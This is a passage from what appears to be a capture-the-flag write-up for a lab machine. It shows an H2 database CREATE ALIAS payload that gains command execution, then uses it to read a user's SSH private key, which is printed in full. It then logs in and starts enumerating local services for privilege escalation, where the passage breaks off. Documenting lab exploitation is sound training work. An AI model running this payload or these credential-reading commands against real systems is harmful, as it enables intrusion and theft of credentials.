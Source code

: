 We can create an alias for command execution following the exploit:

```mysql
CREATE ALIAS REVEXEC AS $$ String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A"); return s.hasNext() ? s.next() : ""; }$$;
```

and we can then use it to gain command execution and thus, a reverse shell

```mysql
CALL REVEXEC('ls -la .ssh')

org.h2.jdbc.JdbcSQLDataException: Data conversion error converting "total 20 drwx------ 2 margo margo 4096 Sep 16 07:22 . 
drwxr-x--- 10 margo margo 4096 Aug 30 10:17 .. 
-rw------- 1 margo margo 175 Sep 16 07:22 authorized_keys 
-rw------- 1 margo margo 492 Sep 16 07:22 id_ecdsa 
-rw-r--r-- 1 margo margo 174 Sep 16 07:22 id_ecdsa.pub "
; SQL statement: CALL REVEXEC('ls -la .ssh') [22018-199]
```

and we see here that there is an ssh key --> we can cat it and use it to ssh:

```mysql
CALL REVEXEC('cat .ssh/id_ecdsa')

org.h2.jdbc.JdbcSQLDataException: Data conversion error converting "-----BEGIN OPENSSH PRIVATE KEY----- b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAaAAAABNlY2RzYS1zaGEy LW5pc3RwMjU2AAAACG5pc3RwMjU2AAAAQQRJJYs5L942EavjlNbchLEzgw5bl3lO0hGsq/Kj5j1p ng+//YAJW/9Bm0VI3RitP/hk2qPSiTh+ML1YEXf62qo1AAAAoBLXAf8S1wH/AAAAE2VjZHNhLXNo YTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEklizkv3jYRq+OU1tyEsTODDluXeU7SEayr8qPm PWmeD7/9gAlb/0GbRUjdGK0/+GTao9KJOH4wvVgRd/raqjUAAAAgLK+666yB9k8sf0NNw/stU+9f qVUSLZEfflUgKAHLocQAAAAAAQIDBAUGBwg= -----END OPENSSH PRIVATE KEY----- "; SQL statement: CALL REVEXEC('cat .ssh/id_ecdsa') [22018-199]
```

and we get in as user `margo`

## Privilege escalation

==> We can then list the services running on the ports on the local system:

```bash
margo@caption:~$ netstat -tlnp
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:8080            0.0.0.0:*               LISTEN      1044/java           
tcp        0      0 127.0.0.1:9090          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3923          0.0.0.0:*               LISTEN      1043/python3        
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      1046/python3        
tcp        0      0 127.0.0.1:6081          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:6082          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      - 
```